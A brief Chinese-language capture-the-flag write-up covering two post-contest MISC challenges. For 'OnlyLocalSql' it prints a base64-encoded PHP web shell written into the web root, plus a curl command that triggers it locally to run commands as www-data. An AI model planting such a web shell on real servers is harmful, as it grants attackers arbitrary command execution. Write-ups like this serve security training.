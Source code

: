 [![](assets/1708482491-9cbee575df3a717f29654587e18c9977.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220140833-79ffcc34-cfb6-1.png)

# MISC

比赛的时候 MISC 一题没看 Orz

## OnlyLocalSql(赛后)

`ctf`​用户可以修改`/var/www/html`​目录，直接在里面添加一个木马文件，通过木马文件执行的命令权限就是`www-data`​

可以绕过`flag`​的限制

```plain
echo PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4= | base64 -d > /var/www/html/1.php
curl http://127.0.0.1/1.php?cmd=nl+/*
```

## sqlshark(赛后)

盲注语句分析，直接筛选`HTTP`​流量然后分析盲注`payload`​就好

‍
